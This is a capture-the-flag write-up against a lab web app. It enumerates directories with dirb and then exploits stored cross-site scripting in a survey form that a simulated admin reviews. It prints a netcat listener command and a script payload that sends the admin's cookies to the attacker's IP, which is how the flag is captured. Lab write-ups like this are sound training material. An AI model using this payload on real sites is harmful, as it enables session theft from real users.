


Target: http://10.80.146.168:5000/


I started with directory enumeration:

```
dirb http://10.80.146.168:5000/
```

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Feb 15 22:51:55 2026
URL_BASE: http://10.80.146.168:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.80.146.168:5000/ ----
+ http://10.80.146.168:5000/admin (CODE:302|SIZE:199)                                                   
+ http://10.80.146.168:5000/login (CODE:200|SIZE:1639)                                                  
+ http://10.80.146.168:5000/logout (CODE:302|SIZE:189)                                                  
+ http://10.80.146.168:5000/survey (CODE:200|SIZE:5286)                                                 

-----------------
END_TIME: Sun Feb 15 22:52:03 2026
DOWNLOADED: 4612 - FOUND: 4
```


We found /admin, /login, /logout, and /survey.

Visiting:

http://10.80.146.168:5000/login

This login page is only for admin access only, any attempt to login normally will just redirect us back to the main page.



Then I checked:

http://10.80.146.168:5000/survey



So we are going to submit a form, and apparently there is a “human” (definitely not a bot, wink wink) that is reviewing each submission every minute. That means if we inject something into the form, the logged-in admin will render it in their browser.

So the plan is simple: send a payload that makes the admin’s browser send us their cookies.

First, I started listening on my attack box on port 1234 (any unused port works):

```
nc -nvlp 1234
```


Now that my attack box is listening, I went back to the survey page and injected this payload into one of the form fields (preferably not name or age since those could be filtered or validated):

```
<script>fetch('http://10.80.77.74:1234/?cookie='+document.cookie)</script>
```

(Reference examples: https://www.invicti.com/learn/cross-site-scripting-xss
)


Once the form is submitted, I went back to my listener and waited.


The admin’s browser made the request, and the cookie came straight to my listener. The flag was sitting right there inside the cookie value, so there was no need to even hijack the session or login as admin.


Attack Type: Cross-Site Scripting (XSS) – Stored XSS leading to cookie theft.
